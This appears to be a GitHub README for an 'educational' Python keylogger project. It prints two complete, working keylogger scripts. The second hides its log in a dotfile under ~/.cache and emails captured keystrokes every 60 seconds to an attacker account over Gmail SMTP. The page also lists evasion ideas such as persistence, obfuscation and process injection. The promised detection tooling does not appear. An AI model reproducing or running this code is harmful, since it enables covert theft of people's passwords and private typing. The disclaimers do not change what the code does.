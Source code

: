 <h1 align="center">🕵️‍♂️ Python Keylogger Simulation (Educational Project)</h1>
<p align="center"><b>Learn Offensive → Build Stronger Defense</b><br><i>Understand how attackers operate & how defenders respond</i></p>

<p align="center">
  <img src="https://img.shields.io/badge/Purpose-Educational-blue">
  <img src="https://img.shields.io/badge/Language-Python%203.x-green">
  <img src="https://img.shields.io/badge/Status-Active-orange">
  <img src="https://img.shields.io/badge/License-Ethical%20Use-red">
</p>

<hr>

<h2>🎯 About This Project</h2>
<p>
This project simulates how keyloggers work — one of the oldest cyber-attack techniques — and more importantly, how they can be <b>detected and defended</b> against.
<br><br>
🧠 <b>Goal:</b> Understand attacker behavior to build stronger Blue Team defense tools.<br>
⚠️ <b>Disclaimer:</b> Strictly for <b>educational and research purposes only</b>.
</p>

<hr>

<h2>📦 Project Versions</h2>

<table>
  <thead>
    <tr><th>Version</th><th>Description</th></tr>
  </thead>
  <tbody>
    <tr><td><b>v1</b></td><td>Basic keylogger — captures keystrokes and saves them to <code>keylog.txt</code></td></tr>
    <tr><td><b>v2</b></td><td>Advanced keylogger — captures keystrokes, exfiltrates via email, and stores hidden backup</td></tr>
    <tr><td><b>v3</b></td><td><i>Coming soon:</i> Real-time dynamic detection script & YARA rule for static detection</td></tr>
  </tbody>
</table>

<hr>

<h2>📄 Code Examples & Explanation</h2>

<h3>🔥 Version 1 — Basic Keylogger</h3>

<pre>
<code>
from pynput import keyboard

def on_press(key):
    with open("keylog.txt", "a") as log:
        try:
            log.write(f"{key.char}")
        except AttributeError:
            log.write(f" [{key}] ")

listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
</code>
</pre>

<p><b>📝 Explanation:</b><br>
A simple keylogger that logs keystrokes to <code>keylog.txt</code>. Uses the <code>pynput</code> library. Special keys like Enter or Space are recorded in brackets.
</p>

<br>

<h3>🔥 Version 2 — Keylogger with Email Exfiltration</h3>

<pre>
<code>
import pynput.keyboard
import threading
import smtplib
import os

log = ""
log_dir = os.path.expanduser("~/.cache")
os.makedirs(log_dir, exist_ok=True)
log_file = os.path.join(log_dir, ".syslog_hidden")

def on_press(key):
    global log
    try:
        log += key.char
    except AttributeError:
        log += f" [{key}] "

def send_mail():
    global log
    if log:
        try:
            server = smtplib.SMTP("smtp.gmail.com", 587)
            server.starttls()
            server.login("attackerEmail@gmail.com", "attackerPassword")
            server.sendmail("attackerEmail@gmail.com", "attackerEmail@gmail.com", log)
            server.quit()
        except:
            pass
        with open(log_file, "a") as f:
            f.write(log + "\n")
        log = ""

    timer = threading.Timer(60, send_mail)
    timer.start()

keyboard_listener = pynput.keyboard.Listener(on_press=on_press)
keyboard_listener.start()
send_mail()
keyboard_listener.join()
</code>
</pre>

<p><b>📝 Explanation:</b><br>
This version sends keystroke logs to an attacker email every 60 seconds using <code>smtplib</code>. Logs are also stored in a hidden backup file <code>.syslog_hidden</code> in the <code>.cache</code> directory.
</p>

<hr>

<h2>💡 Future Enhancements (Advanced Keylogging Concepts)</h2>
<ul>
  <li>Persistence: auto-run on startup via registry or startup folder</li>
  <li>Obfuscation: Base64 encode or pack with PyInstaller</li>
  <li>Network exfiltration: send logs via Telegram or Discord</li>
  <li>Process injection techniques (advanced evasion)</li>
  <li>Real-time detection with process monitoring (Blue Team)</li>
</ul>

<hr>

<h2>☕ Support My Cybersecurity Learning Journey</h2>

<p align="center">
  <a href="https://buymeacoffee.com/sudersen" target="_blank">
    <img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" height="50" width="210" alt="Buy Me A Coffee" />
  </a>
</p>

<hr>

<h2>⚠️ Disclaimer</h2>
<p>
This project is for <b>educational and ethical cybersecurity training purposes only</b>.<br>
Do not use this script in any unauthorized environment. Misuse is a violation of law and professional ethics.
</p>

<hr>

<h2>📬 Let's Connect</h2>
<ul>
  <li>🔗 <a href="https://www.linkedin.com/in/drsudersen" target="_blank">LinkedIn: Dr. Sudersen</a></li>
  <li>☕ <a href="https://buymeacoffee.com/sudersen" target="_blank">Buy Me a Coffee</a></li>
</ul>
